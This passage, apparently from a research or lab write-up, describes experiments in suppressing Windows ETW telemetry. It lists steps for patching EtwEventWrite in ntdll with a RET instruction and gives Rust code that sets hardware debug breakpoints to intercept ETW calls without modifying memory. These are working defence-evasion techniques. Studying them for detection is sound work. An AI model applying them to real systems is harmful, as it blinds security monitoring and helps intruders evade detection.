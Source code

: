 ```rust
        old_protect,
        &mut old_protect
    );
    
    Ok(())
}
```

**Process:**

1. Resolve `EtwEventWrite` address from ntdll.dll via GetProcAddress
2. Modify memory protection from PAGE_EXECUTE_READ to PAGE_EXECUTE_READWRITE
3. Overwrite function prologue with RET instruction (0xC3)
4. Restore original memory protection
5. Spawn test processes with distinctive command-line arguments
6. Verify telemetry presence in Windows Event Log

### Experiment 2: Hardware Breakpoint Alternative

**Objective:** Intercept ETW calls without memory modification

**Implementation:**

Hardware debug registers (DR0-DR7) allow setting execution breakpoints on specific memory addresses. This approach avoids direct memory modification that might trigger integrity checks.

```rust
use winapi::um::winnt::CONTEXT;
use winapi::um::processthreadsapi::{GetThreadContext, SetThreadContext};

unsafe fn set_hardware_breakpoint(
    thread_handle: HANDLE,
    address: *const u8,
    register_index: u8
) -> Result<(), String> {
    let mut context = std::mem::zeroed::<CONTEXT>();
    context.ContextFlags = CONTEXT_DEBUG_REGISTERS;
    
    GetThreadContext(thread_handle, &mut context);
    
    // Set breakpoint address
    match register_index {
        0 => context.Dr0 = address as u64,
        1 => context.Dr1 = address as u64,
        2 => context.Dr2 = address as u64,
        3 => context.Dr3 = address as u64,
        _ => return Err("Invalid register index".to_string()),
    }
    
    // Enable breakpoint (execution break, 1 byte)
    let enable_bit = 1u64 << (register_index * 2);
    context.Dr7 |= enable_bit;
    
    SetThreadContext(thread_handle, &context);
    Ok(())
}
```
